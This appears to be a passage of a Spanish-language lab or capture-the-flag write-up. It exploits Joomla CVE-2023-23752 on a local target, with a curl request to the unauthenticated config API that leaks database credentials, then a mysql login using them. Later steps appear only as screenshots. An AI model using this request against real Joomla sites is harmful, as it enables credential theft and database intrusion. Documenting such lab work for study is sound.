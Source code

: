 encontramos la siguiente vulnerabilidad: Joomla! CVE-2023-23752 to Code Execution

en el blog nos indica que si aplicamos un curl a la siguiente dirección:

```shell
curl -v http://172.17.0.2/wordpress/api/index.php/v1/config/application?public=true
```

podremos encontrar credenciales para una base de datos, osea que es información sensible filtrada.
_________
![](attachment/8a286f549dde7e61a778e36f809f64f8.png)
______
en efecto tenemos credenciales para una base de datos, ahora podremos conectarnos.

```shell
mysql -h 172.17.0.2 -u joomla_user -p
```

_____
tenemos 3 bases de datos pero nos interesa una sola, y de esa listaremos todas sus tablas.
_____
![](attachment/ea2e637285cccaf6cfeef1c22e448102.png)
_____
identificamos la tabla de nuestro interés y listamos su contenido.
____
![](attachment/07802b9048c2a789db75ee3b0458b54c.png)
_____